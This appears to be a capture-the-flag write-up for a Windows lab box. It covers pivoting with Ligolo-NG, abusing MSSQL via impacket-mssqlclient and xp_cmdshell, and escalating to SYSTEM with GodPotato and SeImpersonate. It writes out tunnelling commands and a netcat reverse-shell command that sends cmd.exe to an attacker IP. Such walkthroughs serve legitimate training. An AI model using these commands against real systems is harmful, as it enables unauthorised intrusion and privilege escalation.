

Verifying the agent.exe we made it the right file type.





Downloading the agent over to the host using the `evil-winRM`  upload.

Might take a minute.


Starting the Ligolo-NG Proxy with this.

```
sudo ligolo-proxy -selfcert \                  
  -laddr 0.0.0.0:9001 \
  -api-laddr 127.0.0.1:9090
```



```
.\agent.exe -connect 10.200.109.148:11601 -ignore-cert
```

Idk why the `l-addr` flag doesn't work, oh well. I tried to do the listening address on a different port when I'm using Bloodhound.

We went into the session using `sessions` and found the pivoting network.







```
interface_create --name ligolo
interface_add_route --name ligolo --route 10.0.24.218/22
```

And then run `start` in the proxy commands to start the tunnel.

Confirmed in `ip route` that we can see the local.

------------------------------------------------------------------------
I forgot to take pictures of the rest but..

I had a lot of issues getting the proxy to work but there are some great write-ups on HackSmarter's walkthroughs.

Just know that after you get access to the internal network, you can pivot to the MSSQL that's running locally on the machine. 

How did we know there was something like that?

Well.. when checked the directories earlier, we found that there was some Microsoft SQL. 

From there, try the fred.green credentials using a handy tool: `impacket-mssqlclient` .

I started following the write-up from[ Lain](https://github.com/raskolnikov90/OSCP-LK-Writeups/blob/main/New%20Hire.pdf), who actually made this box as well!

Once you have an interactive SQL instance, you can actually run `enum_share` to check for privileges.

Since this user has `SeImpersonate`, we can use that to impersonate another user.



That's when we switch to the System Administrator!

You can use `exec_as_login sa` to achieve that.

Enable `Advanced options and xp_cmd shell`.



Per Google.

Then use `xp_cmdshell` to create a reverse shell. You can use a `powershell -e ...` command to set up the shell.

Use you reverse shell listener, like nc.

Upload [GodPotato](https://github.com/BeichenDream/GodPotato) using the fred.green evil-win instance.
You can use the `SeImpersonate` abuse after you get that shell!

Here's a [link](https://securelayer7.net/learn-pdf/privilege-escalation/what-is-seimpersonateprivilege.pdf) to read more about it if you need it.

Upload [GodPotato](https://github.com/BeichenDream/GodPotato) using the fred.green evil-win instance to a known area where you can reach it (maybe C:\Windows\Temp or C:\ProgramData).

At this point, you should have both an interactive shell and GodPotato (or whatever other SeImpersonate you find works) up or downloaded.

Using the first interactive shell you have, create another shell with your GodPotato.

```
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe [IP] [PORT]"
```

You'll have to set up another listener here to connect, which should be no issue.

And you have NT Authority at this point!

For the flag, check the sysadmin folder for a password. Hint: You may need to check for hidden folders. Even more hint: SSH?

Thanks! Sorry for the terrible ending to this box. It's not about being perfect, right? I guess I was just too tired to come back.


